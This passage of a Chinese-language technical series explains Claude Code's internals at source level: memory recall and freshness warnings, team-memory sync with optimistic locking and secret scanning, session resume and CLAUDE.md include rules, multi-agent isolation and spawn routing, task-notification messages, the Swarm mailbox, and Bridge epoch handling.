第 54 章概述了记忆召回，但其**相关性选择**与**新鲜度管理**机制值得深入剖析。记忆系统的核心挑战是：记忆文件可能很多（最多 200 个），不可能全部注入上下文，必须选择最相关的 5 个。这一选择过程本身是一个独立的 LLM 调用。

### 90.1 Sonnet 选择器的 manifest 设计

`findRelevantMemories`（`findRelevantMemories.ts:39`）用 Sonnet 做 `sideQuery`，扫描记忆文件 frontmatter 生成 manifest：`[type] filename (mtime): description`。这一 manifest 设计精心：

- **type**：让选择器感知记忆类型（user/feedback/project/reference），不同类型的相关性判断标准不同
- **filename**：提供命名线索，文件名往往暗示内容
- **mtime**：新鲜度信息，让选择器考虑时效
- **description**：frontmatter 中的 description 是召回相关性的核心——这就是为什么 frontmatter 要求"description 要具体，用于未来相关度判断"

manifest 交给 `SELECT_MEMORIES_SYSTEM_PROMPT` 选择器（L18），输出最多 5 个最相关文件名。用 Sonnet（而非 Opus）是为了降低成本——选择器是高频调用，用最便宜的模型即可。

### 90.2 recentTools 的工具感知

`recentTools` 参数让选择器**跳过当前正在使用的工具**的参考文档记忆，但**保留**这些工具的 warning/gotcha。这一区分体现了对模型行为的理解：

- 如果模型正在使用 BashTool，BashTool 的"参考文档"记忆（如何使用）已无意义——模型已经在用了，不需要再读使用说明
- 但 BashTool 的"warning/gotcha"记忆（如"Bash 在 Windows 上需注意路径转换"）仍有价值，因为模型可能正遇到这个问题

这种"按用途区分相关性"的设计让召回既不冗余又不遗漏关键警示。

### 90.3 已展示去重与会话字节节流

`collectSurfacedMemories`（`attachments.ts:2251`）做去重——已展示过的记忆路径不重复选。这防止了同一记忆在多轮中被反复召回注入，浪费上下文。会话总字节节流确保记忆注入不会占据过多上下文——记忆是辅助，不是主体。

`readMemoriesForSurfacing`（`attachments.ts:2279`）用 `readFileInRange` 的字节限制截断超大文件（截断时保留头部并注明）。这防止了一个超大的记忆文件（如详尽的项目文档）撑爆上下文。

### 90.4 新鲜度警告的元认知

`memoryFreshnessText`（`memoryAge.ts:33`）对 >1 天的记忆附加"这是时间点观察，可能过期，引用 file:line 前先核实"的提醒。这是一种**元认知注入**——告诉模型"你的记忆可能过时"。

`TRUSTING_RECALL_SECTION`（memoryTypes.ts:240）进一步强调："记忆说 X 存在 ≠ X 现在存在"。`MEMORY_DRIFT_CAVEAT`（L201）：与当前状态冲突时以现状为准并更新/删除陈旧记忆。这些指令构成了记忆系统的"自我怀疑机制"——模型被教导不盲目信任记忆，而是验证后使用，发现矛盾时更新记忆。

这种设计承认了记忆系统的不完美性——文件式记忆没有事务一致性，可能过时或矛盾。通过元认知注入，系统让模型主动维护记忆的准确性，而非被动地用过时信息做决策。

```mermaid
flowchart TD
    Q[查询开始] --> FM[findRelevantMemories Sonnet选择器]
    FM --> SCAN[scanMemoryFiles 最多200文件]
    SCAN --> MANIFEST[manifest: type filename mtime description]
    MANIFEST --> SEL[SELECT_MEMORIES 选择最多5个]
    SEL --> DEDUP[collectSurfacedMemories 去重已展示]
    DEDUP --> BYTE[会话字节节流]
    BYTE --> READ[readMemoriesForSurfacing 截断超大]
    READ --> AGE[memoryFreshnessText 新鲜度警告]
    AGE --> INJECT[wrapMessagesInSystemReminder 注入]
    INJECT --> VERIFY[TRUSTING_RECALL 验证后使用]
    VERIFY --> DRIFT[MEMORY_DRIFT 矛盾时更新记忆]
```

### 90.5 hasMemoryWritesSince 的互斥

`hasMemoryWritesSince`（extractMemories.ts:121）：若主代理本轮已直接写记忆，则跳过 fork 并推进游标——主代理与后台代理**互斥**。这一互斥防止了重复写入——如果主代理已经写了记忆，extractMemories 再分析同样的消息可能得出相同结论，重复写入。

互斥的实现是游标推进——当主代理写记忆时，游标推进到当前消息；extractMemories 检查游标，发现已推进则跳过。这比"锁"更优雅——无需显式锁，通过游标状态自然互斥。

### 90.6 createAutoMemCanUseTool 的工具限制

`createAutoMemCanUseTool`（L171，与 autoDream 共用）只允许 Read/Grep/Glob、只读 Bash、以及限定在记忆目录内的 Edit/Write。`maxTurns: 5` 硬上限防验证钻牛角尖。

工具限制确保了 extractMemories 只做"读分析+写记忆"，不能执行其他操作（如发网络请求、修改非记忆文件）。这是最小权限原则——后台代理只需记忆相关权限，不应有更多。

`maxTurns: 5` 防止 extractMemories 钻牛角尖——如果它在某条记忆上反复验证（如"这个事实真的对吗"），会消耗大量 token。5 轮上限让它快速决策，不过度验证。

### 90.7 drainPendingExtraction 的优雅关闭

`drainPendingExtraction`（L611）：`print.ts` shutdown 前等待在途提取完成。这确保了关闭时不会丢失正在进行的记忆提取——如果 extractMemories 正在 fork 子代理分析消息，关闭前等待它完成，避免半成品。

### 90.8 节流的 turnsSinceLastExtraction

`turnsSinceLastExtraction` 节流（GrowthBook `tengu_bramble_lintel`，默认每 1 轮）控制提取频率。即使每轮模型停止都触发检查，也不一定每轮都提取——节流确保提取不会太频繁，避免每轮都 fork 子代理的高成本。

默认每 1 轮看似频繁，但配合互斥游标（主代理写过则跳过），实际提取频率低于每轮。这是一个"乐观节流"——假设每轮都可能值得提取，但用互斥和成本控制过滤掉不必要的提取。


## 第 91 章 团队记忆同步与乐观锁

第 50 章概述了团队记忆同步，但其 ETag 乐观锁与冲突解决值得深入。

### 91.1 ETag 乐观锁

API `GET/PUT /api/claude_code/team_memory?repo=...` 用 ETag 乐观锁。`pullTeamMemory`（L770）：GET，If-None-Match → 304（未变）/404（无）/200（更新）。ETag 让客户端知道服务端状态是否变化，避免基于过时状态覆盖。

乐观锁相比悲观锁（如全局锁）更高效——多数情况下无冲突，无需阻塞。只有当两个客户端同时修改（ETag 不匹配，412）时才需解决冲突。

### 91.2 412 冲突的 probe + 重算 delta

`pushTeamMemory`（L889）：delta 上传（仅 `hashContent` 不同的 key），412 冲突时 probe `?view=hashes` 刷新 `serverChecksums` 重算 delta（最多 2 次重试）。

412 冲突意味着"你基于的服务端状态已过时"——另一客户端已推送了修改。解决方式是 probe（查询服务端当前 hashes），刷新本地 `serverChecksums`，基于最新状态重算 delta（只上传仍未同步的）。2 次重试上限防止无限冲突循环。

### 91.3 batchDeltaByBytes 的网关规避

批量 `batchDeltaByBytes`（L426，<200KB/PUT 避网关 413）。413 Request Entity Too Large 是网关/代理对请求体大小的限制。通过把大的 delta 拆分为 <200KB 的批次，规避了网关 413 错误。

这一细节体现了对真实部署环境的适配——企业网络可能有网关/代理限制请求体大小，分批上传确保兼容性。

### 91.4 secretScanner 的防泄漏

secret 扫描（`secretScanner.ts`，gitleaks 模式，PSR M22174）：含密文件跳过上传。这是防止"团队记忆同步泄露密钥"的关键——如果某成员把 API key 写进了记忆文件，secretScanner 会检测到并跳过上传，防止密钥同步到服务端和其他成员。

gitleaks 模式是业界标准的密钥检测模式，覆盖常见密钥格式（AWS keys、API tokens、私钥等）。PSR M22174 是这一安全修复的工单号，表明它源于一个真实的安全事件。

### 91.5 fs.watch + debounce 的推送触发

`startTeamMemoryWatcher`（L252）：启动时 pull → `fs.watch({recursive:true})` 监听 → 2s debounce `schedulePush`。fs.watch 监听文件变化触发推送，但文件写入可能触发多次事件（如大文件分块写），2s debounce 合并这些事件，避免频繁推送。

`notifyTeamMemoryWrite`（PostToolUse hook 显式触发，防 fs.watch 漏）。fs.watch 在某些平台/文件系统上可能不可靠（如网络文件系统），显式 hook 作为补充触发，确保推送不遗漏。


## 第 92 章 会话恢复与 CLAUDE.md 指令机制

Claude Code 支持 `--resume`/`--continue` 恢复历史会话，其状态机恢复值得深入。

### 92.1 resume 的 transcript 重载

`--resume` 让用户选择历史会话恢复。恢复时从 `<projectDir>/<sessionId>.jsonl` 重载完整 transcript。但 transcript 可能很大，全量载入会撑爆上下文——因此 resume 后通常需要 compact。

### 92.2 --continue 的最近会话

`--continue` 恢复最近的会话，无需选择。它找到最近的 transcript 文件，直接恢复。这是"快速回到上次工作"的便捷功能。

### 92.3 restoreCostStateForSession 的成本恢复

`restoreCostStateForSession`（cost-tracker.ts）resume 时恢复会话成本状态。这让恢复后的会话能继续累计之前的成本，而非从零开始。成本状态从项目配置读取（`saveCurrentSessionCosts` 在进程 exit 时写）。

### 92.4 switchSession 的原子切换

`switchSession`（`bootstrap/state.ts:468`）原子切换会话 ID。原子性确保会话切换时不会有"半切换"状态——要么完全切到新会话，要么保持原会话。这防止了切换过程中其他代码读到不一致的 sessionId。

### 92.5 sessionSource 的模式恢复

`sessionSource`（如 `'remote-control'`）记录会话来源。`matchSessionMode`（coordinatorMode.ts:49）resume 会话时翻转环境变量以匹配存储的 mode——如存储的是 coordinator 模式，恢复时设置 `CLAUDE_CODE_COORDINATOR_MODE` 让会话以 coordinator 模式继续。

### 92.6 @include 的路径解析

`@include` 指令（`extractIncludePathsFromTokens`，L451）支持 `@path`、`@./path`、`@~/path`、`@/abs/path` 四种形式。`@path` 相对当前文件，`@./path` 显式相对，`@~/path` 相对主目录，`@/abs/path` 绝对路径。

### 92.7 MAX_INCLUDE_DEPTH 的循环防护

`MAX_INCLUDE_DEPTH = 5` 防循环。如果 A.md include B.md，B.md include A.md，会无限循环。深度上限 5 让 include 链最多 5 层深，超过则停止，防止无限递归。

### 92.8 TEXT_FILE_EXTENSIONS 的二进制排除

`TEXT_FILE_EXTENSIONS`（L96）白名单排除二进制（图/PDF 等被 @include 引入）。只有文本扩展名的文件才能被 @include，防止引入二进制内容（图片/编译产物等）破坏 CLAUDE.md。

### 92.9 外部 include 授权

外部文件需要 `hasClaudeMdExternalIncludesApproved` 授权。@include 引用项目目录外的文件（如 `@/etc/config.md`）需要用户显式批准——防止恶意 CLAUDE.md include 敏感系统文件泄露给模型。

### 92.10 stripHtmlComments 的注释剥离

`stripHtmlComments`（L292，用 marked lexer 只剥块级注释）。HTML 注释 `<!-- -->` 在 CLAUDE.md 中可能是临时备注，不应注入模型。剥离块级注释让模型只看到实际指令。

### 92.11 code block 内的 @include 跳过

`@include` 仅在文本节点（跳过 code block）。code block 内的 `@path` 是代码示例而非 include 指令，不应展开。这一区分让 @include 不破坏代码示例的完整性。

### 92.12 processConditionedMdRules 的 glob 匹配

`processConditionedMdRules`（L1354）：只保留 frontmatter `paths:` glob 匹配目标文件的**条件规则**，用 `ignore()` 库匹配。如 `.claude/rules/react.md` 有 `paths: ["*.tsx"]`，只有当模型编辑 .tsx 文件时才加载该规则。

### 92.13 getMemoryFilesForNestedDirectory 的按需加载

`getMemoryFilesForNestedDirectory`（L1249）：当模型访问某文件时按需加载该目录层级及匹配 glob 的规则。如模型编辑 `packages/frontend/Button.tsx`，加载 `packages/frontend/.claude/rules/*.md`。

### 92.14 Edit/Read 时触发

条件规则/nested memory 在 Edit/Read 时触发。这是"按需加载"——只有当模型实际访问某目录的文件时，该目录的规则才加载，而非启动时全量加载。这减少了初始上下文占用，让规则与实际工作对齐。

### 92.15 glob 的 gitignore 语义

条件规则的 glob 用 `ignore()` 库以 gitignore 语义匹配。`paths: ["src/**/*.ts"]` 匹配 src 下所有 .ts 文件。gitignore 语义让规则编写对开发者自然——与 .gitignore 语法一致。


## 第 93 章 多代理隔离与 forkedAgent 缓存共享

第 36 章概述了隔离机制，但其**分层设计**值得深入剖析。Claude Code 的多代理隔离不是单一机制，而是多层隔离的叠加，每层防御不同的泄露/干扰向量。

### 93.1 上下文隔离与 fork 例外

子代理默认独立 `promptMessages`，看不到父对话（`AgentTool.tsx:538`）。这确保了子代理专注自己的任务，不被父对话的无关上下文干扰，也防止了上下文污染。但 fork 是例外——`buildForkedMessages`（`forkSubagent.ts:107`）克隆父 assistant 消息 + 占位 tool_result + 指令，让 fork 子代理继承父上下文。

fork 例外的原因是：fork 用于"延续父任务"的场景（如 compact 摘要、extractMemories），需要父上下文才能正确工作。而普通子代理用于"委派独立子任务"，不需要父上下文。这种区分让隔离机制既有安全性（普通子代理隔离）又有灵活性（fork 继承）。

### 93.2 worktree 文件隔离与路径翻译

`createAgentWorktree`（`AgentTool.tsx:591`）为子代理创建独立的 git worktree，slug 为 `agent-{agentId前8位}`。这确保了子代理的文件修改在独立的 worktree 中，不影响主工作区。完成后 `cleanupWorktreeIfNeeded`（第 644 行）：无改动则删除 worktree，有改动则保留。

fork + worktree 时注入路径翻译提示 `buildWorktreeNotice`（`forkSubagent.ts:205`）。这是因为 fork 子代理继承了父的上下文，父上下文中的文件路径是主工作区的路径，但子代理在 worktree 中，路径不同。路径翻译提示告诉子代理"父说的 path/to/file 对应你这里的 worktree/path/to/file"，避免文件操作错误。

### 93.3 AsyncLocalStorage 进程内隔离

in-process teammate（Swarm 模式）用 `runWithTeammateContext`（`inProcessRunner.ts`）提供 AsyncLocalStorage 隔离。AsyncLocalStorage 是 Node.js 的异步上下文传播机制，允许在同一进程内为不同的异步执行流维护独立的"上下文"。

这让多个 teammate 在同一进程内运行而不互相干扰——每个 teammate 的 `getTeammateContext()` 返回自己的身份、权限模式、工具队列等。相比进程隔离（tmux pane），进程内隔离更轻量（无进程开销），但隔离强度较弱（共享进程内存，一个 teammate 崩溃可能影响整个进程）。

### 93.4 递归 fork 防护

`isInForkChild`（`forkSubagent.ts:78`）扫描 `FORK_BOILERPLATE_TAG` 防止递归 fork。如果没有这一防护，fork 子代理可以再 fork 孙代理，孙代理再 fork 曾孙代理，导致指数级进程/任务爆炸。通过检测 fork 模板标签，系统知道当前已在 fork 上下文中，拒绝再次 fork。

类似地，in-process teammate 不能 spawn teammate/background agent（`AgentTool.tsx:272-280`）。这防止了 teammate 的无限派生。

### 93.5 prompt cache 字节一致的隔离权衡

fork 路径用 `useExactTools: true` 继承父的精确工具数组（第 627–633 行），**保证 prompt cache 前缀字节一致**。这是一个隔离与性能的权衡——严格隔离要求子代理有独立的工具集，但独立工具集会破坏 prompt cache 前缀（工具定义是系统提示的一部分）。

fork 选择继承父工具集而非独立装配，是因为 fork 的场景（compact、extractMemories）与父任务高度相关，使用相同工具集是合理的，且能复用父的 prompt cache，大幅降低成本。而普通子代理用独立装配（`assembleToolPool`，`workerPermissionContext`），因为子任务可能需要不同工具，且独立工具集更安全。

### 93.6 initSessionOutputAsSymlink 的隔离

`src/utils/task/diskOutput.js` 的 `initSessionOutputAsSymlink` 把后台任务输出落盘到隔离 transcript 文件。这是"transcript 隔离"——后台任务的完整输出不污染主会话 transcript（可能很长），而是独立存储，主代理通过 `output-file` 引用读取。

### 93.7 generateTaskId 的防爆破

`generateTaskId()`（`Task.ts:96`）生成类型前缀 + 8 字符随机 ID，防 symlink 爆破。symlink 爆破攻击是指：恶意代码尝试猜测任务 ID，创建符号链接指向敏感文件，当系统按任务 ID 写输出时会覆盖敏感文件。8 字符随机 ID 提供了足够大的空间（16^8 ≈ 43 亿），使猜测不可行。

### 93.8 evictTaskOutput 的内存管理

`evictTaskOutput` 清理已完成任务的输出文件，防止磁盘无限增长。后台任务可能产生大量输出（如长时间运行的 bash 命令），evict 机制确保磁盘使用有界。

### 93.9 LocalMainSessionTask 的 Ctrl+B 双击

`src/tasks/LocalMainSessionTask.ts` 实现主会话后台化——Ctrl+B 双击把当前查询后台化。双击而非单击是为了防止误触——后台化主查询是重大操作（主查询是用户当前关注的工作），需要明确的意图确认。

`startBackgroundSession()`（第 338 行）用现有 messages 另起独立 `query()`——后台化的查询继续执行，用户可以继续输入新查询。`completeMainSessionTask()`（第 168 行）完成时用 XML `task_notification`（`enqueuePendingNotification`，mode `task-notification`）唤醒模型。`foregroundMainSessionTask()`（第 270 行）恢复前台（`foregroundedTaskId` 切换）。

这一机制让用户可以"同时处理多个任务"——后台化当前查询，输入新查询，两者并行，后台查询完成后通知。这是终端 CLI 中少见的"多任务"体验。


### 93.10 子代理的 maxTurns

子代理有 maxTurns 限制——子代理不能无限循环。如 extractMemories 的 `maxTurns: 5`，verification 也有上限。这防止子代理"钻牛角尖"——反复验证某事实消耗大量 token。

### 93.11 maxTurns 的递归防护

子代理的 maxTurns 与递归 fork 防护（`isInForkChild`）配合——不仅限制单代理的轮数，还限制代理派生深度。双重防护确保了即使模型尝试通过派生规避 maxTurns，也会被递归防护拦截。


### 93.12 runForkedAgent 的缓存复用

`runForkedAgent`（`utils/forkedAgent.ts`）：fork 主对话的 prompt cache，`createCacheSafeParams`、`canUseTool: createAutoMemCanUseTool(memoryRoot)`、`querySource: 'auto_dream'`、`skipTranscript: true`。

`createCacheSafeParams` 是缓存复用的关键——它构造与主对话相同的 cache-key 参数（system/tools/model/messages prefix/thinking config）。fork 子代理发送相同 cache-key，API 复用主对话的缓存前缀，大幅降低 token 成本。

### 93.13 skipTranscript 的输出隔离

`skipTranscript: true` 让 fork 子代理的输出不写入主会话 transcript。fork 子代理是后台任务（dream、extractMemories、compact 摘要），其完整输出不应污染主 transcript——主 transcript 只记录用户可见的对话。

fork 子代理的输出通过 `onMessage` 回调（如 `makeDreamProgressWatcher`）提取进度，而非完整 transcript。

### 93.14 querySource 的递归保护

`querySource: 'auto_dream'`/`'compact'`/`'session_memory'` 标识 fork 来源。`shouldAutoCompact`（autoCompact.ts:160）检查 querySource——`'session_memory'|'compact'` 返回 false，防止 forked agent 自身触发 autocompact 导致死锁。

这是递归保护——fork 子代理本身是压缩操作，如果它再触发压缩，会无限递归。通过 querySource 标识，系统知道"这是压缩子代理，不应对其压缩"。


## 第 94 章 AgentTool 派生决策树与内置代理哲学

第 30 章概述了 AgentTool 的 call 主流程，但其派生决策树值得深入。AgentTool 是多代理的统一入口，其 `call` 方法根据输入参数路由到不同的派生路径，每条路径有独特的隔离、通信、回流机制。

### 94.1 三路派生的输入判定

AgentTool 的 `call`（`AgentTool.tsx:239`）通过输入参数判定派生路径：

1. **`team_name + name`** → `spawnTeammate`（Swarm 路径）：当用户/模型同时提供 team_name 和 name 时，派生一个持久的 teammate。这条路径走 `spawnMultiAgent.ts` 的 `spawnTeammate`，根据后端可用性选择进程内（AsyncLocalStorage 隔离）或 tmux/iTerm2 面板（独立进程）。
2. **`subagent_type` 省略 + `isForkSubagentEnabled()`** → Fork 路径：派生一个继承父上下文的 fork 子代理，用于 compact 摘要、extractMemories 等需要父上下文的后台任务。`isInForkChild`（`forkSubagent.ts:78`）扫描 `FORK_BOILERPLATE_TAG` 防递归 fork。
3. **有 `subagent_type`** → 普通子代理：按 `subagent_type` 查 `agentDefinitions.activeAgents`，经 `filterDeniedAgents` 权限过滤后派生。

这三路派生的输入判定是互斥的——同一 AgentTool 调用只走一条路径。判定顺序也很关键：team_name + name 优先（Swarm 是更显式的意图），然后 fork（实验特性），最后普通子代理（默认）。

### 94.2 shouldRunAsync 的异步决策

`shouldRunAsync`（第 557–567 行）决定子代理是同步等待还是异步后台执行：

- `run_in_background` —— 用户/模型显式要求后台
- `selectedAgent.background` —— 代理类型声明为后台（如 verification 代理 `background: true`）
- `isCoordinator` —— Coordinator 模式下所有 worker 异步
- `forceAsync`（fork）—— fork 派生统一走 `<task-notification>` 模型
- `assistantForceAsync`（KAIROS）—— 助理模式强制异步
- `proactive` —— proactive 模式异步

异步子代理返回 `async_launched`，主代理可以继续其他工作；同步子代理阻塞主代理直到完成。这一决策影响用户体验——异步允许主代理在子代理工作时继续响应，但增加了结果回流（`<task-notification>`）的复杂性。

### 94.3 worker 工具池的独立装配

第 573–577 行：`const workerTools = assembleToolPool(workerPermissionContext, appState.mcp.tools)`。worker 的权限模式默认 `acceptEdits`，不受父代理工具限制约束。这让子代理有独立的权限边界——父代理被 deny 的工具，子代理可能仍能使用（取决于子代理的权限上下文）。

Fork 路径例外：用 `useExactTools: true` 继承父的精确工具数组（第 627–633 行），**保证 prompt cache 前缀字节一致**。这是 prompt cache 友好设计在多代理中的体现——fork 子代理复用父的 prompt cache，工具集必须完全一致才能命中缓存前缀。

### 94.4 requiredMcpServers 检查

普通子代理派生前检查 `requiredMcpServers`（等 pending 服务器最多 30s）。如果子代理类型声明了需要特定 MCP 服务器（如 `mcpServers: ['github']`），系统会等待这些服务器连接就绪，最多 30 秒。这防止了子代理启动后因 MCP 服务器未连接而无法使用所需工具。

### 94.5 isolation 的三种隔离

- `isolation: 'worktree'` → `createAgentWorktree(slug)`：git worktree 文件隔离
- `isolation: 'remote'` → `registerRemoteAgentTask`/`teleportToRemote`：远程 CCR 隔离
- 无 isolation → 进程内 AsyncLocalStorage 隔离

worktree 隔离让子代理的文件修改在独立的 git worktree 中，不影响主工作区；remote 隔离让子代理在远程容器执行，完全隔离；进程内隔离最轻量但隔离强度最弱。三种隔离对应不同的安全/性能权衡——worktree 平衡了隔离与性能（共享进程但隔离文件），remote 提供最强隔离但延迟最高，进程内最快但隔离最弱。

### 94.6 auto-background 的 120 秒阈值

`getAutoBackgroundMs()` 默认 120s——如果子代理运行超过 120 秒，自动转为后台。这防止了长时间运行的子代理阻塞主代理。120 秒是一个经验阈值——大多数只读研究任务在 120 秒内完成，超过的可能是实现类任务，转为后台让主代理继续响应。

### 94.7 general-purpose 的全工具策略

`general-purpose` 代理用全工具 `['*']`，是研究/搜索/多步任务的通用专家。它没有工具限制，能执行几乎任何主代理能做的操作。这一设计让它适合"需要灵活探索和操作"的任务——当任务的工具需求不可预测时，用 general-purpose 最安全。

但全工具也是风险——general-purpose 可以执行危险操作。因此它的权限仍受 workerPermissionContext 约束（默认 acceptEdits），并非无限制。

### 94.8 Explore 的只读专员设计

`Explore` 代理（`built-in/exploreAgent.ts:64`）是只读搜索专员：`disallowedTools` 含 Edit/Write/NotebookEdit/Agent/ExitPlanMode。外部用户用 haiku（成本最低），ant 用 inherit。`omitClaudeMd: true`——不加载 CLAUDE.md（探索任务不需要项目指令）。

Explore 的设计哲学是"用最便宜的模型做最安全的探索"。它只读、用 haiku、不加载 CLAUDE.md——这些设计都指向低成本、高并发的探索。当主代理需要"搜索代码库中某模式的所有出现"时，派生多个 Explore 并行搜索比主代理串行搜索高效得多。`ONE_SHOT_BUILTIN_AGENT_TYPES = {Explore, Plan}` 让它不附带 agentId/SendMessage 尾巴，节省 token——Explore 是即用即弃的，无需续派。

### 94.9 Plan 的架构师角色

`Plan` 代理（`built-in/planAgent.ts:73`）是软件架构师，只读规划，强制输出 "Critical Files for Implementation"。它的设计哲学是"专注规划，不实现"——只读确保它不会误改代码，强制输出关键文件让规划结果可操作。

Plan 代理与 EnterPlanMode/ExitPlanMode 工具配合——Plan 代理产出规划，主代理用 ExitPlanMode 退出规划模式开始实现。这种"规划与实现分离"让规划阶段不被实现的细节干扰，产出更高质量的架构决策。

### 94.10 verification 的对抗式验证

`verification` 代理（`built-in/verificationAgent.ts:134`）`background: true`（自动后台），是对抗式验证专员，强制 `VERDICT: PASS/FAIL/PARTIAL`。它的设计哲学是"主动寻找问题"——verification 代理的任务不是确认实现正确，而是尝试找出实现的缺陷。

`background: true` 让 verification 自动后台运行，不阻塞主代理。强制输出 VERDICT 让验证结果结构化，主代理可以据此决定是否修复。这呼应了 TodoWriteTool 的 verification nudge（`:76`）——主线程关闭 3+ 任务且无 verification 步骤时附提醒，要求派 verification agent。

### 94.11 ONE_SHOT_BUILTIN_AGENT_TYPES 的 token 经济

`ONE_SHOT_BUILTIN_AGENT_TYPES = {Explore, Plan}`（constants.ts:9）——这些代理结果不附带 agentId/SendMessage 尾巴，节省 token。Explore 和 Plan 是"一次性"的——它们的输出就是最终结果，无需续派对话。通过省略 agentId 和 SendMessage 尾巴，结果回流的消息更简洁，节省了上下文 token。

而 general-purpose 和 verification 不是 one-shot——它们可能需要续派（如 general-purpose 探索后继续实现，verification 验证后补充发现）。因此它们附带 agentId，主代理可以用 `SendMessage({to: agentId})` 续派。


## 第 95 章 子代理结果回流与 Swarm 邮箱通信

第 36 章概述了结果回流，但 `<task-notification>` 的消息工程值得深入。子代理结果不是直接作为文本返回，而是构造为 XML 格式的 user-role 消息注入主代理对话流。

### 95.1 enqueueAgentNotification 的原子防重复

`enqueueAgentNotification`（`LocalAgentTask.tsx:197`）原子检查 `notified` flag 防重复，然后 `abortSpeculation`（废弃推测结果）。原子检查是必要的——在并发场景下，子代理完成、超时、被 kill 可能同时触发通知，原子检查确保只有一个通知成功注入。

`abortSpeculation` 废弃推测结果是一个有趣的设计——推测执行（speculation）可能在子代理完成前就预测了结果，当真实结果到达时，推测结果被废弃。这避免了推测结果与真实结果冲突。

### 95.2 task-notification 的 XML 结构

通知构造为 XML：

```xml
<task-notification>
<task-id>{agentId}</task-id>
<tool-use-id>...</tool-use-id>
<output-file>{path}</output-file>
<status>completed|failed|killed</status>
<summary>Agent "{desc}" completed</summary>
<result>{finalMessage}</result>           <!-- 可选 -->
<usage><total_tokens>N</total_tokens><tool_uses>N</tool_uses><duration_ms>N</duration_ms></usage>
<worktree><path>..</path><branch>..</branch></worktree>  <!-- 可选 -->
</task-notification>
```

这一 XML 结构设计精心：

- `task-id` 即 agentId，主代理用其作 `SendMessage({to: agentId})` 续派
- `output-file` 指向完整 transcript，主代理可读详细结果
- `status` 区分 completed/failed/killed，让主代理知道子代理的最终状态
- `result` 可选——完整结果可能很大，只放摘要，详情在 output-file
- `usage` 让主代理感知子代理的 token 消耗，便于成本追踪
- `worktree` 可选——如果有 worktree 隔离，告知路径和分支

### 95.3 user-role 消息的注入

通过 `enqueuePendingNotification`（`messageQueueManager`）以 `mode: 'task-notification'` 注入主代理对话流，作为 **user-role 消息** 到达（`coordinatorMode.ts:144` 注明"看似 user 消息但不是"）。这是一个微妙的设计——user-role 消息在 API 层面与真实用户输入无区别，但系统知道它是任务通知而非用户意图。

注释"看似 user 消息但不是"揭示了这一设计的张力——API 要求消息交替（user → assistant → user），任务通知必须作为 user 消息注入以维持交替。但系统不能让主代理把任务通知误解为用户的新指令。通过 XML 格式和明确的 `<task-notification>` 标签，系统降低了这种误解读的风险。

### 95.4 killed 的部分结果

`extractPartialResult`（`agentToolUtils.ts:488`）：killed 时倒序找最后一条 assistant 消息文本作为 `finalMessage`，附带 `<status>killed</status>`。这是"部分结果优于无结果"的设计——即使子代理被中断，它已完成的部分工作仍有价值。倒序找最后一条 assistant 消息是因为最新的进展最有参考价值。

### 95.5 completeAsyncAgent 的先标完成

`runAsyncAgentLifecycle` 的第 3 步 `completeAsyncAgent`（第 603 行）**先标完成**——让 `TaskOutput(block=true)` 立即解除阻塞。这是一个重要的顺序决策——如果有其他代码在 `TaskOutput` 阻塞等待子代理完成，先标完成让它们立即解除阻塞，即使后续的分类器/worktree 清理等步骤可能挂起也不会阻塞等待者。

这一设计体现了"先解除阻塞，后清理"的哲学——子代理的核心结果已经就绪，立即让等待者拿到；清理工作（worktree 删除、分类器等）可以在后台进行，不应阻塞结果交付。


第 33-34 章概述了 Swarm，但其文件邮箱通信机制值得深入。Swarm 的 teammate 之间不通过共享内存或消息队列通信，而是通过文件邮箱——这是一种"文件即消息"的设计。

### 95.6 mailbox 的文件存储

`src/utils/teammateMailbox.ts` 实现文件邮箱：每个 teammate 有一个 mailbox 目录，消息以 JSON 文件形式写入。teammate 轮询读取 mailbox，处理新消息。

文件邮箱的优势是**持久与可观察**——消息持久化到磁盘，即使 teammate 重启也能恢复；调试时可以直接查看 mailbox 文件内容。劣势是延迟——轮询有间隔，不如共享内存即时。

### 95.7 初始 prompt 的两种投递

进程外（tmux/iTerm2）teammate 的初始 prompt 经 mailbox 投递（`spawnMultiAgent.ts:513` `writeToMailbox`），teammate 启动后轮询邮箱。而进程内 teammate 的初始 prompt 直接传入（不经 mailbox，第 1011 行注释）。

这一差异的原因是：进程外 teammate 是独立的 `claude` CLI 进程，没有共享内存，必须通过 mailbox 传递初始 prompt；进程内 teammate 在同进程内，可以直接传参。进程内 teammate 仍用 mailbox 处理后续的 SendMessage（不是初始 prompt），以保持通信机制的一致性。

### 95.8 消息类型与处理

mailbox 消息有多种类型：

- 普通文本消息（`SendMessage` 的 message）
- `shutdown_request`/`shutdown_response`（approve/reject）——优雅关闭协议
- `plan_approval_response`（approve/reject，仅 team-lead 可发）——plan 模式审批
- 权限响应（`processMailboxPermissionResponse`）——leader 的权限决策回传

`isShutdownRequest`、`isPermissionResponse`、`markMessageAsReadByIndex` 等辅助函数让 mailbox 处理逻辑清晰。`createIdleNotification` 让 teammate 完成任务后通知 leader idle，leader 可以派新任务。

### 95.9 权限同步的 leader 桥接

in-process teammate 用 `leaderPermissionBridge.ts` 和 `permissionSync.ts` 同步权限。当 teammate 遇到 ask 权限时，它不直接弹窗（teammate 可能在后台），而是通过 mailbox 发权限请求给 leader，leader 用自己的 ToolUseConfirm 队列处理（带 worker 徽章标识来源）。

这一设计让 teammate 的权限决策由 leader 统一处理——避免每个 teammate 各自弹窗打扰用户，而是集中到 leader 的权限队列。worker 徽章让用户知道是哪个 teammate 请求的权限。


## 第 96 章 Bridge 的 epoch 与多会话模式

第 42-44 章概述了 Bridge，但其 **epoch 与序列号一致性机制**值得深入剖析。Bridge 是一个有状态的双向通道，需要处理传输中断、重连、并发等复杂情况，epoch 与序列号是其一致性保证的核心。

### 96.1 worker_epoch 的并发控制

v2 传输中，`registerWorker`（POST `/v1/code/sessions/{id}/worker/register`）拿到 `worker_epoch`。每次调用 `/v1/code/sessions/{id}/bridge` 都会 bump epoch。epoch 的作用是**并发控制**——同一会话同一时刻只能有一个活跃的 worker。

如果旧 worker 因网络问题未正常断开，新 worker 注册时 epoch 递增，旧 worker 的后续请求会因 epoch 不匹配（409）被拒绝。这防止了"幽灵 worker"继续操作会话。`onEpochMismatch`（`replBridgeTransport.ts:209`）关闭传输，回退到轮询恢复。

### 96.2 SSE 序列号续传

SSE 流支持 `from_sequence_num` / `Last-Event-ID` 续传（`replBridgeTransport.ts:130、194`）。每个 SSE 事件都有一个递增的序列号，客户端记录最后收到的序列号。传输中断重连时，客户端带上 `from_sequence_num=lastSeq+1`，服务端从该序列号继续推送。

跨传输切换时由 `lastTransportSequenceNum` 携带——即使从 SSE 切换到轮询再切回 SSE，序列号连续性得以保持。这确保了传输层故障不会丢失消息——重连后从断点继续。

